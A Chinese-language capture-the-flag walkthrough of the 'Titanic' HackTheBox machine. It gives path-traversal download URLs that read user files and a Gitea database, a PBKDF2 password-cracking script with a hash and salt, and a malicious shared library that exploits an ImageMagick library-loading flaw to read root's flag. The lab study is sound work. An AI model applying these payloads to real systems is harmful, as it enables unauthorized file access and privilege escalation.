










## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Titanic  
❯ nmap titanic.htb -sV -T4                                                                                                                    

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## ReadAnyFiles

进入**titanic.htb**，点击**Book Now**，使用**burpsuite**进行抓包发现一个**download**路由



尝试将**ticket**的参数修改为其他文件



可以看到成功下载



使用下面的**URL**进行下载可以读取到**user.txt**

```
http://titanic.htb/download?ticket=../../../../../../../home/developer/user.txt
```

## Subdomain FUZZ



将**dev.titanic.htb**添加到**/etc/hosts**

可以看到是一个**Gitea**的服务，并且版本是**1.22.1**



**gitea**的数据库文件一般在**/data/gitea.db**中

这里尝试使用下面的路径进行下载

```
titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db
```

成功拿到数据库文件



## Crack Passwd

可以看到密码是用**pbkdf2**进行加密的，这和**HTB-Compiled**有一点类似

直接使用**hashcat**会有一点慢，这里我使用的是脚本

```
import hashlib
import binascii

def pbkdf2_hash(password, salt, iterations=50000, dklen=50):
    hash_value = hashlib.pbkdf2_hmac(
        'sha256',
        password.encode('utf-8'),
        salt,
        iterations,
        dklen
    )
    return hash_value

def find_matching_password(dictionary_file, target_hash, salt, iterations=50000, dklen=50):
    target_hash_bytes = binascii.unhexlify(target_hash)
    
    with open(dictionary_file, 'r', encoding='utf-8') as file:
        count = 0
        for line in file:
            password = line.strip()
            hash_value = pbkdf2_hash(password, salt, iterations, dklen)
            count += 1
            print(f"正在检查密码 {count}: {password}")
            if hash_value == target_hash_bytes:
                print(f"\nFound password: {password}")
                return password
        print("Password not found.")
        return None

salt = binascii.unhexlify('8bf3e3452b78544f8bee9400d6936d34')
target_hash = 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'
dictionary_file = '/usr/share/wordlists/rockyou.txt'
find_matching_password(dictionary_file, target_hash, salt)
```



## ROOT

登录后，在**/opt/scripts**下看到一个脚本文件



查看到**magick**的版本信息，找到一个漏洞



- [Arbitrary Code Execution in \`AppImage\` version \`ImageMagick\` · Advisory · ImageMagick/ImageMagick](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

根据**identify\_image.sh**，需要在**/opt/app/static/assets/images**中生成**libxcb.so.1**才能导致**root**权限下的**magick**读取到**root.txt**

```
cd /opt/app/static/assets/images

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/rootflag");
    exit(0);
}
EOF
```

然后修改原有的目录内容，比如说复制一个图片

```
cp home.jpg home2.jpg
```



## Summary

`User`：任意文件下载即可获取到**user.txt**，不过没有ssh密钥，在子域名爆破后得知是**gitea**服务，通过数据库文件泄露拿到了**developer**的密码**hash**，爆破后进行登录。

`Root`：**magick**的版本漏洞，该版本在执行时设置和环境变量时可能会使用空路径，这可能会导致在执行时通过加载当前工作目录中的恶意配置文件或共享库来执行任意代码。需要在**identify\_images.sh**所指定的目录下进行创建配置，等待脚本执行即可获得**root.txt**。
